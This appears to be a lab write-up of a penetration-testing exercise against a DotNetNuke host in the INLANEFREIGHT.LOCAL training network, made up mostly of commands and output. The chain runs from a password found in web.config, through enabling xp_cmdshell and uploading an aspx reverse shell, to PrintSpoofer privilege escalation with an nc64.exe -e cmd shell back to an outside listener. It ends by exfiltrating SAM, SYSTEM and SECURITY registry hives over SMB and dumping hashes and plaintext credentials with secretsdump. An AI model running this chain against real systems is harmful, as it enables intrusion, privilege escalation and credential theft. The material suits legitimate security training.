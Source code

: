 Looking at the web.config file from the DNN directory in the NFS share, we can find the administrator password:
```shell-session
root@dmz01:~/mnt/DNN# cat web.config 
<?xml version="1.0"?>
<configuration>
  <!--
    For a description of web.config changes see http://go.microsoft.com/fwlink/?LinkId=235367.

    The following attributes can be set on the <httpRuntime> tag.
      <system.Web>
        <httpRuntime targetFramework="4.6.2" />
      </system.Web>
  -->
  <username>Administrator</username>
  <password>
        <value>D0tn31Nuk3R0ck$$@123</value>
  </password>
  <system.web>
    <compilation debug="true" targetFramework="4.5.2"/>
    <httpRuntime targetFramework="4.5.2"/>
  </system.web>
```

Identifying the host names:
```shell-session
# proxychains crackmapexec smb 172.16.8.x -u Administrator -p D0tn31Nuk3R0ck$$@123
```

Accessing the DEV01 host through the browser with proxychains:
![[Pasted image 20240722094632.png]]

We can now login with the credentials found in the web.config file.

Found [this website](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/dotnetnuke-dnn) as reference to exploiting DNN.

Going to the profile page we can access SQL console from the settings:
![[Pasted image 20240722095843.png]]

The tester ran the following line to enable xp_cmdshell:
```
EXEC sp_configure 'show advanced options', '1'
RECONFIGURE
EXEC sp_configure 'xp_cmdshell', '1' 
RECONFIGURE
```

Now we can run commands:
![[Pasted image 20240722100106.png]]

We will go on another route.

Starting a listener on the ubuntu target machine:
```shell-session
root@dmz01:~/mnt# nc -nlvp 1234
Listening on 0.0.0.0 1234
```

Let's first download aspx reverse shell from [here](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx).

Now going to `Settings -> Security -> More -> More Security Settings` we can add asp, and aspx allowed extensions, and then hit save:
![[Pasted image 20240722103614.png]]

After that, going to the `/admin/file-management` page we can upload an aspx web shell.

Then we can click the file, or go to `/Portals/0/shell.aspx` in order to execute the reverse shell.

And we got a shell:
```shell-session
root@dmz01:~/mnt# nc -nlvp 1234
Listening on 0.0.0.0 1234
Connection received on 172.16.8.20 51680
Spawn Shell...
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>
```

Looking at the privileges we can see the seImpersonatePrivilege is enabled:
```powershell
PS C:\Users\Public> whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Now we will transfer [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) and [nc.exe](https://github.com/int0x33/nc.exe/) to the machine:
```powershell
PS C:\Users\Public> Invoke-WebRequest http://172.16.8.120:9090/PrintSpoofer.exe -OutFile PrintSpoofer.exe
Invoke-WebRequest http://172.16.8.120:9090/PrintSpoofer.exe -OutFile PrintSpoofer.exe
PS C:\Users\Public> Invoke-WebRequest http://172.16.8.120:9090/nc64.exe -OutFile nc64.exe
Invoke-WebRequest http://172.16.8.120:9090/nc64.exe -OutFile nc64.exe
```

Starting a listener on the ubuntu machine:
```shell-session
root@dmz01:~# nc -nlvp 4444
Listening on 0.0.0.0 4444
```

We can see the target is Windows sever 2019, so the machine isn't vulnerable to the JuicyPotato attack:
```powershell
PS C:\Users\Public> systeminfo
systeminfo

Host Name:                 ACADEMY-AEN-DEV
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Member Server
OS Build Type:             Multiprocessor Free

<SNIP>

```

Now we will run PrintSpoofer on the target:
```powershell
PS C:\Users\Public> c:\Users\Public\PrintSpoofer.exe -c "C:\Users\Public\nc64.exe 172.16.8.120 4444 -e cmd"
c:\Users\Public\PrintSpoofer.exe -c "C:\Users\Public\nc64.exe 172.16.8.120 4444 -e cmd"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```

We got a shell as SYSTEM:
```shell-session
root@dmz01:~# nc -nlvp 4444
Listening on 0.0.0.0 4444
Connection received on 172.16.8.20 52114
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

We can now copy the registry hives:
```cmd
C:\>reg.exe save hklm\sam C:\sam.save
reg.exe save hklm\sam C:\sam.save
The operation completed successfully.

C:\>reg.exe save hklm\system C:\system.save
reg.exe save hklm\system C:\system.save
The operation completed successfully.

C:\>reg.exe save hklm\security C:\security.save
reg.exe save hklm\security C:\security.save
The operation completed successfully.
```

Now it's time to move the files to our machine:

Starting smb share on our machine:
```shell-session
# python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support share here -user vk9guest -password vk9pass
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

We will use reverse port forwarding to connect to the share from the Windows machine:
```shell-session
# ssh -R 445:localhost:445 root@10.129.229.147 -i id_rsa 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-113-generic x86_64)

<SNIP>

root@dmz01:~#
```

Next let's move the registry hives from the DEV01 host to the share:
```cmd
C:\>net use \\172.16.8.120\share /user:vk9guest vk9pass
net use \\172.16.8.120\share /user:vk9guest vk9pass
The command completed successfully.

C:\>move sam.save \\172.16.8.120\share
move sam.save \\172.16.8.120\share
        1 file(s) moved.

C:\>move security.save \\172.16.8.120\share
move security.save \\172.16.8.120\share
        1 file(s) moved.

C:\>move system.save \\172.16.8.120\share
move system.save \\172.16.8.120\share
        1 file(s) moved.
```

Finally we'll use secretsdump to dump the hashes:
```shell-session
# python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Target system bootKey: 0xb3a720652a6fca7e31c1659e3d619944
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e20798f695ab0d04bc138b22344cea8:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
mpalledorous:1001:aad3b435b51404eeaad3b435b51404ee:3bb874a52ce7b0d64ee2a82bbf3fe1cc:::
[*] Dumping cached domain logon information (domain/username:hash)
INLANEFREIGHT.LOCAL/hporter:$DCC2$10240#hporter#f7d7bba128ca183106b8a3b3de5924bc: (2022-06-23 04:59:45)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:a63c91a66e7fdaf75a79bcefa62ae021b6da04819a211e044f4194a24c813f697b10f807b0af80e21ba35677dc1ebc1da1a0ea9829b863d40baf40f6b4c8456768ee22c8f8a68dffc89b70c7a18de9c4cd6d3f91e10af600d19be988b75f76d1d04b705c5678d2fde1c0e22a219f5400a7aaae9429aac6735aa8fe5fd8f8e8701657b310f770ba522bb7e3f1cdf83e3f0c0a9f583a9fa59de85fc6c693403011aacd03b62d5e3d67041f355d8fba25fac69a0c09b683437ad028dbd05b870dca74d2f0232e48c6c964e368e0975ca91ff796f154575a98c96e3597ac99aba5189741a231bfe41eb542d0386d61798da7
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:50849e24cf28249ec74808978f773046
[*] DefaultPassword 
(Unknown User):Gr8hambino!
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x6968d50f5ec2bc41bc207a35f0392b72bb083c22
dpapi_userkey:0xe1e7a8bc8273395552ae8e23529ad8740d82ea92
[*] NL$KM 
 0000   21 0C E6 AC 8B 08 9B 39  97 EA D9 C6 77 DB 10 E6   !......9....w...
 0010   2E B2 53 43 7E B8 06 64  B3 EB 89 B1 DA D1 22 C7   ..SC~..d......".
 0020   11 83 FA 35 DB 57 3E B0  9D 84 59 41 90 18 7A 8D   ...5.W>...YA..z.
 0030   ED C9 1C 26 FF B7 DA 6F  02 C9 2E 18 9D CA 08 2D   ...&...o.......-
NL$KM:210ce6ac8b089b3997ead9c677db10e62eb253437eb80664b3eb89b1dad122c71183fa35db573eb09d84594190187a8dedc91c26ffb7da6f02c92e189dca082d
[*] Cleaning up...
```

We got a success connecting with the hporter user and the plaintext password:
```shell-session
# proxychains crackmapexec smb 172.16.8.20 -u hporter -p Gr8hambino!
[proxychains] config file found: /etc/proxychains4.conf

SMB         172.16.8.20     445    ACADEMY-AEN-DEV  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-AEN-DEV) (domain:INLANEFREIGHT.LOCAL) (signing:False) (SMBv1:False)
SMB         172.16.8.20     445    ACADEMY-AEN-DEV  [+] INLANEFREIGHT.LOCAL\hporter:Gr8hambino!
```
